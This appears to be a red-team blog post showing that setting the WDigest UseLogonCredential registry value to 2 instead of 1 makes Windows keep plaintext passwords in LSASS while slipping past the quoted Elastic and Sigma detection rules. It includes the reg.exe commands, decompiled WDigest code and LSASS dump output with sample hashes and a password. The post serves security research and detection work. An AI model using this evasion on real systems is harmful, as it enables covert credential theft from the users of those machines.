

Dumping credentials from host in post-exploitation phase is a common step during internal infrastructure assessment or red teaming engagement. The most well-known target is undoubtedly Local Security Authority Subsystem Service (LSASS) which is a process that handles logging verification, access tokens creation, password changes, etc. Memory content of this process used to be treasure trove of interesting data, most of all passwords in *clear text*. Nowadays, the chances you'll find plain text passwords there are getting slimmer (albeit non-negligible) and it also comes with it's own price. It probably became the most guarded process on system by most AV/EDR systems and Windows OS itself. It's a non-trivial task to extract credentials from `lsass.exe` process without any detection with a decent EDR in place.

That said, we might still find interesting data inside LSASS dump even with default configuration, most notably NTLM hashes which is a quick win anyway as we can use them for lateral movement. Sometimes however, we can't pass the hash for instance if `LmCompatibilityLevel` is set to level 5, or the account whose hash we collected is in protected group, or only Kerberos authentication is allowed. Sure enough, dumping Kerberos tickets to the rescue! But still, with plaintext passwords we can further go on with credential stuffing and some passwords I recovered in the past really made me chuckle. :) Yeah, we can still resort to cracking, but if the password is sufficiently complex, we'll have to look probably elsewhere.

Or maybe not? Of course, not! There are still options, especially with legacy protocols being hacker's best friends since... forever?!


## Behold WDigest

In an ancient past (and sometimes even nowadays), Windows used to store credentials in LSASS process in a way they were easily reversible to plaintext once we get the process' dump. Even though these credentials were held in memory encrypted, the corresponding encryption keys were also held in memory, which is essentially as good as having them in plaintext to the hacker's eyes. For simplification we'll continue, although technically incorrect, saying they're plaintext/cleartext. And how ancient you ask? Actually, not so ancient. In 2014, Microsoft released update KB2871997 which stopped most security providers to store cleartext passwords in LSASS, but WDigest was due to backwards compatibility not among them. However, it was made disabled by default in versions of Windows 8.1+ and Windows 2012 R2+.



Nice thing about enabling and disabling WDigest security provider is that it's only a matter of changing one registry record. No reboot needed. You enable it with one command and all subsequent user logins will have their passwords stored in LSASS in plaintext. Thus if you're not satisfied with with you've found inside LSASS dump, turn WDigest on with one command, wait some time and come again to collect passwords. So simple!

According to the [official documentation](https://support.microsoft.com/en-us/topic/microsoft-security-advisory-update-to-improve-credentials-protection-and-management-may-13-2014-93434251-04ac-b7f3-52aa-9f951c14b649#ID0EDDBT), we can control WDigest with the registry entry `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest`:
- If the `UseLogonCredential` value is set to 0, WDigest will not store credentials in memory.
- If the `UseLogonCredential` value is set to 1, WDigest will store credentials in memory.

The fact that all it takes to enable WDigest is running `reg.exe add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1` command made it frequently abused by hackers. As response, all somewhat decent AV/EDR software flag this command either as suspicious or outright malicious.

I started writing this blog post year ago, but I haven't finished it, and haven't forced myself to finish it until now. Year ago, even Windows Defender was blocking this registry change. But apparently this has changed to my surprise as it doesn't block anymore when I tested it now. Is having WDigest turned on a new hotness that I somehow missed? I can only guess. Anyway, Defender is more of a basic AV, so I wouldn't expect to fly under the radar running the above command while facing stronger enemy. Year ago, I was in such situation battling with CrowdStrike EDR which, as expected, didn't like WDigest at all. So, what options do we have in such case?

## He who seeks, finds

Well, couple of them. Focusing on WDigest and leaving other things aside now, several years ago Adam Chester [blogged](https://blog.xpnsec.com/exploring-mimikatz-part-1/) about turning WDigest on by patching LSASS memory to modify `g_fParameter_UseLogonCredential` variable (and also `g_IsCredGuardEnabled` if needed). This is a great technique that put stealing plaintext credentials back into the game. The only catch remains to stealthily open handle to LSASS process, manipulate it's memory and then wait for new credentials, giving SOC more time to spot suspicious activity and boot you out. Of course, you'd need to somehow get those precious credentials from LSASS memory later anyway, but you have more options to do it, and most importantly more subtle. For instance, Evan McBroom just very recently [blogged](https://posts.specterops.io/lsa-whisperer-20874277ea3b) about techniques to obtain credentials from LSA without opening handle or otherwise touching LSASS memory at all, implemented by newly released tool [LSA Whisperer](https://github.com/EvanMcBroom/lsa-whisperer). As of yet, this tool unfortunately doesn't support WDigest SSP, but it's reportedly planned to be implemented later.

But back to Adam's blog post mentioned above, he reverse-engineered the code in `WDigest.dll` to see how `g_fParameter_UseLogonCredential` is set. We can see that value of registry record `UseLogonCredential` is fed into `g_fParameter_UseLogonCredential`. If the registry value doesn't exist, the parameter is set to 0.

```c
...
local_res20[0] = 4;
LVar2 = RegQueryValueExW((HKEY)g_hkBase,L"UseLogonCredential",(LPDWORD)0x0,local_38,&g_fParameter_UseLogonCredential,local_res20);
if (LVar2 != 0) {
	_g_fParameter_UseLogonCredential = 0;
}
...
```

Later, function `SpAcceptCredentials` checks if `g_fParameter_UseLogonCredential` is zero or if `g_IsCredGuardEnabled` is set to non-zero. In either case, the code will then proceed to `LogSessHandlerNoPasswordInsert` function instead of `LogSessHandlerPasswdSet` which will likely omit storing the password.

```c
...
if ((*(uint *)(PrimaryCredentials + 10) & 0x800) == 0) {
	if ((_g_fParameter_UseLogonCredential == 0) || (g_IsCredGuardEnabled != 0)) {
		if (g_IsCredGuardEnabled == 0) {
			pcVar5 = "policy";
		} else {
			pcVar5 = "Credential Guard";
		}
	}
}
...
```

However, what caught my attention in the code above is that value from `UseLogonCredential` is directly fed into `g_fParameter_UseLogonCredential` variable and code checks only for whether it's zero. So I asked myself *What happens when we set `UseLogonCredential` to something other than 0 and 1?*

I looked around for open-source detection rules and found they indeed focus on creating alert when `WDigest\UseLogonCredential` is being set to 1.

[**Elastic rule**](https://github.com/elastic/detection-rules/blob/main/rules/windows/credential_access_mod_wdigest_security_provider.toml):

```toml
...
[rule]
author = ["Elastic"]
description = """
Identifies attempts to modify the WDigest security provider in the registry to force the user's password to be stored in
clear text in memory. This behavior can be indicative of an adversary attempting to weaken the security configuration of
an endpoint. Once the UseLogonCredential value is modified, the adversary may attempt to dump clear text passwords from
memory.
"""
...
query = '''
registry where host.os.type == "windows" and event.type : ("creation", "change") and
    registry.path : (
        "HKLM\\SYSTEM\\*ControlSet*\\Control\\SecurityProviders\\WDigest\\UseLogonCredential",
        "\\REGISTRY\\MACHINE\\SYSTEM\\*ControlSet*\\Control\\SecurityProviders\\WDigest\\UseLogonCredential"
    ) and registry.data.strings : ("1", "0x00000001") and
    not (process.executable : "?:\\Windows\\System32\\svchost.exe" and user.id : "S-1-5-18")
'''
...
```

[**Sigma rule**](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/registry/registry_set/registry_set_wdigest_enable_uselogoncredential.yml):

```yml
title: Wdigest Enable UseLogonCredential
id: d6a9b252-c666-4de6-8806-5561bbbd3bdc
status: test
description: Detects potential malicious modification of the property value of UseLogonCredential from HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest to enable clear-text credentials
...
detection:
    selection:
        TargetObject|endswith: 'WDigest\UseLogonCredential'
        Details: DWORD (0x00000001)
    condition: selection
...
```

Sure, reverse-engineered code above is few years dated, but I think such low-level code doesn't use to change much. To be sure though, rather then speculate we'll observe how it *really* behaves through some fine experimentation.

## The fine art of experimentation

In short, I found that AV/EDR companies got it wrong. But I'm not too surprised, because Microsoft got it wrong in the first place with their documentation! As I earlier parrotted official documentation, if you set `UseLogonCredential` to 0, WDigest is disabled - that is true indeed! But the rest is not! The value type of this registry entry is not boolean, it can have much more values than just 0 and 1.

When I tried the traditional command for enabling WDigest a year ago, I was unsurprisingly blocked by Windows Defender (and also by CrowdStrike). The fact that you likely won't be blocked by Defender nowadays (unless they change their mind again) might make this somewhat less interesting, but remember that not being blocked during red teaming isn't enough. You strive for being not detected at all!


Even though the command output assured me it completed successfully, the change was immediately rolled back.

```ps1
PS C:\Windows\system32> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
The operation completed successfully.
PS C:\Windows\system32> reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
    Debuglevel    REG_DWORD    0x0
    Negotiate    REG_DWORD    0x0
    UTF8HTTP    REG_DWORD    0x1
    UTF8SASL    REG_DWORD    0x1
    DigestEncryptionAlgorithms    REG_SZ    3des,rc4
```

We'll log off and on the computer. We dump LSASS at this point to see if we find some WDigest plaintext passwords.

```
session_id 1
username User
domainname WINDEV2210EVAL
logon_server WINDEV2210EVAL
...
	== MSV ==
		Username: User
		Domain: WINDEV2210EVAL
		LM: NA
		NT: 2cd5cd4e187b8b4147a1dddb881bba2d
		SHA1: 79263b3084f3dfec31ea8d46d7870a97fce5bc4c
		DPAPI: NA
	== WDIGEST [115e65]==
		username User
		domainname WINDEV2210EVAL
		password None
		password (hex)
	== Kerberos ==
		Username: User
		Domain: WINDEV2210EVAL
	== WDIGEST [115e65]==
		username User
		domainname WINDEV2210EVAL
		password None
		password (hex)
...
```

As expected, no WDigest passwords. Now we try to set `UseLogonCredential` to 2.

```ps1
PS C:\Windows\system32> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 2
The operation completed successfully.
PS C:\Windows\system32> reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
    Debuglevel    REG_DWORD    0x0
    Negotiate    REG_DWORD    0x0
    UTF8HTTP    REG_DWORD    0x1
    UTF8SASL    REG_DWORD    0x1
    DigestEncryptionAlgorithms    REG_SZ    3des,rc4
    UseLogonCredential    REG_DWORD    0x2

PS C:\Windows\system32>
```

We don't receive a single bleep from AV. That's nice, but will it work? Let's see! We'll log off and on the computer and make another dump of LSASS process to see if we find some WDigest plaintext passwords this time.

```
session_id 3
username User
...
luid 35289914
	== MSV ==
		Username: User
		Domain: WINDEV2210EVAL
		LM: NA
		NT: 2cd5cd4e187b8b4147a1dddb881bba2d
		SHA1: 79263b3084f3dfec31ea8d46d7870a97fce5bc4c
		DPAPI: NA
	== WDIGEST [21a7b3a]==
		username User
		domainname WINDEV2210EVAL
		password MyP4$$w0rd
		password (hex)4d0079005000340024002400770030007200640000000000
	== Kerberos ==
		Username: User
		Domain: WINDEV2210EVAL
	== WDIGEST [21a7b3a]==
		username User
		domainname WINDEV2210EVAL
		password MyP4$$w0rd
		password (hex)4d0079005000340024002400770030007200640000000000
```

Damn! I need to change my password now.

## Beyond WDigest

The main focus of this blog post was WDigest as it's surely best known for storing plaintext passwords because it's dead simple. It will log your credentials in plaintext with no other prerequisites. However, abusing WDigest is luckily not our only option when we want plaintext credentials.

Mimikatz provides us with couple of other options, such as registering new SSP with Mimilib that will store plaintext credentials similarly as WDigest, or using built-in command `misc::memssp` in Mimikatz that will patch LSASS memory to redirect execution and log plaintext credentials. Both methods were nicely described in another [blog post](https://blog.xpnsec.com/exploring-mimikatz-part-2/) by no other than Adam Chester again.

Creator of Mimikatz, one and the only Benjamin Delpy, also pointed out in some of [his](https://twitter.com/gentilkiwi/status/1120786720239308802) [tweets](https://twitter.com/gentilkiwi/status/685228576350859264) some features of interest. Clément Notin also wrote a [blog post](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/#credential-theft) about abusing "Credential Delegation", an RDP SSO feature of CredSSP.

And sometimes Mimikatz/LSASS will surprise us with plaintext passwords even if we don't expect it, like in [here](https://github.com/gentilkiwi/mimikatz/issues/293).

In general, various registry settings can enable storing plaintext passwords, or set an important security configuration, and are expected to be set to 0 or 1. I would be surprised if the same trick as described above doesn't apply on most of these as well. ;-)
